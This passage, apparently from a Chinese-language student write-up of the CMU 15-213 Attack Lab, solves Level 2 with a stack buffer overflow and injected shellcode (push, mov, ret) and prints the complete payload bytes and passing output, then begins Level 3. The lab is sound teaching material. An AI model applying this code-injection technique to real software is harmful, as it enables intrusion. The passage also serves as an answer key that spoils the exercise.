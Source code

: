 函数对应的汇编代码地址如下：

```
00000000004017ec <touch2>:
```

该函数接受一个unsigned类型的整数，如果该整数的值与cookie值相同，则完成。

由于该函数需要接收参数，因此我们不能够简单的通过地址的跳转来执行该函数，我们要在调用函数前将我们设置的参数保存至%rdi寄存器中，然后跳转至touch2函数，才能进入正确的条件分支。注意在writeup中特别注明不可以使用jmp或者call指令来跳转至touch2，而必须使用ret指令。因此我们的解决思路是：

1. 将缓冲区进行过度写，将getbuf的返回地址覆盖为我们输入的机器代码的起始部分，
2. 然后将在栈中执行我们输入的代码，完成设置参数和跳转指令
3. 跳转至touch2函数

因此我们要构造的字符串结构如下：

1. 为了方便理解，我们将注入的代码放置在缓冲区的头部，因此字符串的第一部分即为我们的**机器代码**
2. 第二部分是填充字节到达40字节
3. 第三部分是8字节的地址值，地址指向缓冲器的起始部分。

接下来的问题是如何构造机器码。机器码中需要设置参数，因此需要一条mov指令，其次不允许使用call和jmp的情况下，我们只能使用ret指令，根据ret指令的特性，我们将要跳转的地址压栈，再执行ret，即跳转至touch2。因为我们设置了机器码在栈顶，所以我们需要直到函数运行时栈顶的地址，这一地址可以由gdb调试查看%rsp指针的值得到，为0x5561DC78。因此机器码及其反汇编结果如下：

```assembly
level2.o:     file format elf64-x86-64

Disassembly of section .text:

0000000000000000 <.text>:
   0:	68 ec 17 40 00       	push   $0x4017ec
   5:	bf fa 97 b9 59       	mov    $0x59b997fa,%edi
   a:	c3                   	ret    
```

接下来将字符串拼接，中间继续使用0x41填充，结果成功通过。输出结果如下：

```
Cookie: 0x59b997fa
Touch2!: You called touch2(0x59b997fa)
Valid solution for level 2 with target ctarget
PASS: Would have posted the following:
	user id	bovik
	course	15213-f15
	lab	attacklab
	result	1:PASS:0xffffffff:ctarget:2:68 EC 17 40 00 BF FA 97 B9 59 C3 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 78 DC 61 55 00 00 00 00 
```

### Level 3

本任务与Level 2有些类似，但是传递的参数是一个字符数组的指针，并且touch3函数中又调用了别的函数。

touch3相关代码如下：

```C
1 /* Compare string to hex represention of unsigned value */
2 int hexmatch(unsigned val, char *sval)
3 {
4 	char cbuf[110];
5 	/* Make position of check string unpredictable */
6 	char *s = cbuf + random() % 100;
7 	sprintf(s, "%.8x", val);
8 	return strncmp(sval, s, 9) == 0;
9 }
7
10
11 void touch3(char *sval)
12 {
13 	vlevel = 3; /* Part of validation protocol */
14 	if (hexmatch(cookie, sval)) {
```